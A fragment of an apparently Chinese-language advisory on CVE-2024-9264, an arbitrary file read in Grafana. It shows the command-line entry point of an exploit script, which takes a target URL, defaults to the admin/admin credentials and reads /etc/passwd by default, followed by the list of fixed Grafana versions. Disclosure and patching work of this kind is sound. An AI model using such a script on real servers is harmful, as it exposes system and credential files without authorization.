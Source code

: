 ```python

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Arbitrary File Read in Grafana via SQL Expression (CVE-2024-9264).")
    parser.add_argument("--url", help="URL of the Grafana instance to exploit")
    parser.add_argument("--user", default="admin", help="Username to log in as, defaults to 'admin'")
    parser.add_argument("--password", default="admin", help="Password used to log in, defaults to 'admin'")
    parser.add_argument("--file", help="File to read on the server, defaults to '/etc/passwd'")


    args = parser.parse_args()
    main(args.url, args.user, args.password, args.file)

```

## 漏洞修复

该漏洞最早出现在 Grafana 11.0.0 版本，现已在以下版本（OSS 和 Enterprise 版本）中修复：

```
11.0.5+security-01
11.1.6+security-01
11.2.1+security-01
11.0.6+security-01
11.1.7+security-01
11.2.2+security-01
```
